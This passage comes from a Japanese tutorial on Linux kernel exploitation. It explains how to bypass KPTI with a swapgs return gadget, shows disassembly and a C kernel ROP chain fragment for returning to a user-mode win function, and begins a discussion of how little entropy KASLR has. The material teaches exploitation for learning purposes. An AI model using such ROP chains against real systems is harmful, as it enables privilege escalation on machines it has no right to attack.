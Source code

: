 今回の場合はswapgsの前に`pop rax`と`pop rdi`があります。
```
   0xffffffff81800e89:  pop    rax
   0xffffffff81800e8a:  pop    rdi
   0xffffffff81800e8b:  swapgs
```
先ほどの図で`push [rdi]; push rax`していた値がここでrax, rdiに戻されます。そして、`swapgs`時点でのスタックは冒頭の
```
   0xffffffff81800e32:  push   QWORD PTR [rdi+0x30]
   0xffffffff81800e35:  push   QWORD PTR [rdi+0x28]
   0xffffffff81800e38:  push   QWORD PTR [rdi+0x20]
   0xffffffff81800e3b:  push   QWORD PTR [rdi+0x18]
   0xffffffff81800e3e:  push   QWORD PTR [rdi+0x10]
```
で構築されたもの（rdiは元のrsp）ですので、gadget呼び出しの0x10バイト先にswapgsで使うデータを置く必要があります。
```c
*chain++ = rop_bypass_kpti;
*chain++ = 0xdeadbeef;
*chain++ = 0xdeadbeef;
*chain++ = (unsigned long)&win; // [rdi+0x10]
*chain++ = user_cs;
*chain++ = user_rflags;
*chain++ = user_rsp;
*chain++ = user_ss;
```
この点に気をつけて、KPTIのもとでも動くkROPを自分の手で完成させてみてください。

## KASLRの回避
ここまでKASLRを無効化してきましたが、KASLR有効だとexploit可能でしょうか。

### KASLRのエントロピー
本題に入る前に、そもそもKASLRはどのように実装されているのでしょうか。
カーネルのアドレスランダム化はページテーブルレベルで行われ、`kaslr.c`の[`kernel_randomize_memory`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/mm/kaslr.c#L64)関数で実装されています。
カーネルは0xffffffff80000000から0xffffffffc0000000までの1GBのアドレス空間を確保しています。したがって、KASLRが有効でも0x810から0xc00までの、たかだか0x3f0通り程度のベースアドレスしか生成されません。

<center>
  <img src="img/kaslr_entropy.png" alt="KASLRの範囲" style="width:300px;">
</center>

<div class="balloon_l">